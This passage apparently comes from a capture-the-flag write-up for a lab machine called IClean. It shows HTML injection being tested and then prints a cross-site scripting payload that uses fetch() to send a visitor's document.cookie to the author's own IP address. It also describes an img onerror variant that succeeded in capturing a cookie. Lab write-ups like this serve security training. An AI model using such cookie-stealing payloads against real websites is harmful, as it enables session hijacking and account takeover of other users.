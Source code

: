 ![tried html injection](/assets/images/IClean/tried-html-injection.png)

The response doesn't change, but we receive a request for test.jpg from the machine's IP (10.10.11.12):

![request for test.jpg](/assets/images/IClean/request-for-test.jpg.png)

I will try to retrieve somebody's cookie by injecting a script which sends a request to my server with his cookie as the route. Trying with `<script>fetch("http://10.10.15.95/"+document.cookie)</script>` doesn't works but with a onerror declaration of an img tag, I can successfully retrieve somebody's cookie:

![onerror img send cookie](/assets/images/IClean/onerror-img-send-cookie.png)